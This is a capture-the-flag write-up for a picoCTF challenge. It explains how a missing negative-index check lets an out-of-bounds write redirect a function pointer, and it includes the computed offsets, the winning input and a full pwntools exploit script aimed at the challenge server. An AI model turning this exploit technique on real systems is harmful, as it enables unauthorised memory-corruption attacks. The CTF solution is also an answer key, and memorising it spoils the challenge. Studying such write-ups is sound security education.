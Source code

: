 The challenge provides a 32-bit, non-PIE Linux executable. The objective is to retrieve a flag by exploiting a vulnerability in the provided C source code.

The program prompts the user for two inputs: a string (`story`) and two integers (`num1`, `num2`). It then calls a function pointer, `check`, which is initialized to point to the `hard_checker` function. The `hard_checker` function requires the sum of the input string's ASCII character values to be `13371337`, a condition that is computationally impossible given the buffer's size limit of 127 characters.

The `easy_checker` function, however, requires a sum of only `1337`, which is achievable. The goal is therefore to redirect the `check` function pointer from `hard_checker` to `easy_checker`.

-----


The vulnerability lies in the `vuln` function:

```c
void vuln()
{
  char story[128];
  int num1, num2;

  printf("Tell me a story and then I'll tell you if you're a 1337 >> ");
  scanf("%127s", story);
  printf("On a totally unrelated note, give me two numbers. Keep the first one less than 10.\n");
  scanf("%d %d", &num1, &num2);

  if (num1 < 10)
  {
    fun[num1] += num2;
  }

  check(story, strlen(story));
}
```

The code checks if `num1` is less than 10 to prevent an upper out-of-bounds write on the global array `int fun[10]`. However, it fails to check for negative values. The `scanf` function with the `%d` format specifier permits negative integers. By supplying a negative value for `num1`, an attacker can write to memory locations preceding the `fun` array. This is a classic **integer underflow** leading to an out-of-bounds write.

The target of this write is the global function pointer `void (*check)(char*, size_t)`, which is defined directly before the `fun` array in the source code.

-----



The exploit is executed in two stages: redirecting the function pointer and satisfying the new condition.

#### 3.1. Control Flow Hijacking

The first step is to calculate the precise offsets needed to modify the `check` pointer. This requires analysis of the specific binary provided for the challenge instance.

1.  **Function Address Delta:** The operation is an addition (`+=`), not a direct overwrite. To change the pointer's value from the address of `hard_checker` to that of `easy_checker`, we must add the difference between their addresses.

      * Address of `easy_checker`: `0x80492fc`
      * Address of `hard_checker`: `0x8049436`
      * **Value (`num2`)**: \`$0x80492fc - 0x8049436 = -570$

2.  **Memory Layout and Index Offset:** It cannot be assumed that the `check` pointer and `fun` array are adjacent in memory. Compilers may introduce padding. By examining the binary's symbol table, the exact addresses are found:

      * Address of `check` pointer: `0x804c040`
      * Address of `fun` array: `0x804c080`
      * **Memory Gap**: \`$0x804c080 - 0x804c040 = 0x40$ (64 bytes)
      * Since `fun` is an array of 4-byte integers, the index (`num1`) required to reach the `check` pointer is calculated as: `-(64 / 4) = -16`.

The payload to overwrite the pointer is therefore `num1 = -16` and `num2 = -570`.



The second step is to provide a string to `story` whose character values sum to `1337`. The string `"ZZZZZZZZZZZZZZM"` satisfies this condition:

  * ASCII('Z') = 90
  * ASCII('M') = 77
  * **Total Score**: $(14 \\times 90) + 77 = 1260 + 77 = 1337$.

-----



The following Python script automates the exploitation process by sending the calculated payloads to the remote server.

```python
#!/usr/bin/env python3
from pwn import *

# --- Configuration ---
HOST = "saturn.picoctf.net"
PORT = 60188 # Note: Port may vary per instance

# --- Calculated Offsets ---
# Value to add to the function pointer
address_delta = -570
# Index to reach the function pointer's memory location
index_offset = -16

# --- Execution ---
try:
    # Connect to the remote target
    io = connect(HOST, PORT)

    # 1. Send the story payload to satisfy the easy_checker condition
    story_payload = b"Z" * 14 + b"M"
    io.sendlineafter(b'>> ', story_payload)

    # 2. Send the numeric payload to overwrite the function pointer
    numeric_payload = f"{index_offset} {address_delta}".encode()
    io.sendlineafter(b'Keep the first one less than 10.\n', numeric_payload)

    # 3. Receive and parse the flag
    io.recvuntil(b'picoCTF{')
    flag_content = io.recvuntil(b'}', drop=True).decode()
    flag = f"picoCTF{{{flag_content}}}"
    log.success(f"Flag: {flag}")

except Exception as e:
    log.failure(f"Exploit failed: {e}")
finally:
    if 'io' in locals() and io:
        io.close()
```

<img width="950" height="1010" alt="screenshot-1753541167" src="https://github.com/user-attachments/assets/3898c5d8-b8cb-4da2-9399-85950abbc574" />











